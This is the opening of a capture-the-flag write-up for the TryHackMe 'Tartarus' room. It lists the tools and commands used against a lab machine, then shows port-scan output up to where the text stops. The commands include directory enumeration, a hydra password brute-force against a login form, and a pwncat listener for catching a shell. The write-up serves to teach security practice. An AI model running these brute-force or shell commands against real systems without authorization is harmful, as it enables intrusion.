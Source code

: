```yaml
---
title: Writeup - THM - Tartarus
author: Fr3akazo1d!
date: 2020-10-27 23:14:00 +0100
categories: [Hacking, CTF]
tags: [tryhackeme, tartarus, hacking, pwned, nmap, gobuster, cronjob]
image: /assets/img/thm-images/tartarus-thm.png
---
```

# General Information

| Room        | Date        | Difficulty | Tags                               | Time |
| ----------- | ----------- | ---------- | ---------------------------------- | ---- |
| Tartarus    | 25.10.2020  | Easy       | Security, ctf, dirbuster, tartarus | 2h   |


# Used Programs

| Program  | Command |
| --------- | -------- |
| namp     | nmap -sC -sV -oN nmap/initial|
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| gobuster | gobuster dir -u http://10.10.213.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | 
| dirsearch | python /git/dirsearch/dirsearch.py -u 10.10.213.137 -e php,html |
| ftp |ftp 10.10.213.137 |
| Burp-Suite | GUI |
| hydra | hydra -l e##x -P c#########s.txt 10.10.213.137 http-post-form "/s##########t/a##########e.php:username=^USER^&password=^PASS^&Login:Incorrect password! " |
| pwncat | ppwncat --config /git/pwncat/data/pwncatrc -p 9910 -l |

## Rustscan-Output

The first step is always to run a network scan on the Target. For the last weeks i am using Rustscan. This is a very fast Network-Scanner. He Scans all the ports and then made a nmap scan on the open ports.

Below the Output of the rustscan.

```sh
     _____           _    _____
    |  __ \         | |  / ____|
    | |__) |   _ ___| |_| (___   ___ __ _ _ __
    |  _  / | | / __| __|\___ \ / __/ _` | '_ \
    | | \ \ |_| \__ \ |_ ____) | (_| (_| | | | |
    |_|  \_\__,_|___/\__|_____/ \___\__,_|_| |_|
    Faster nmap scanning with rust.

Automatically upping ulimit to 5000
Open 22
Open 21
Open 80
Starting nmap.
The Nmap command to be run is -sC -sV -oN nmap/initial -vvv -Pn -p 22,21,80 10.10.213.137
Starting Nmap 7.91 ( https://nmap.org ) at 2020-10-25 22:12 CET
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
```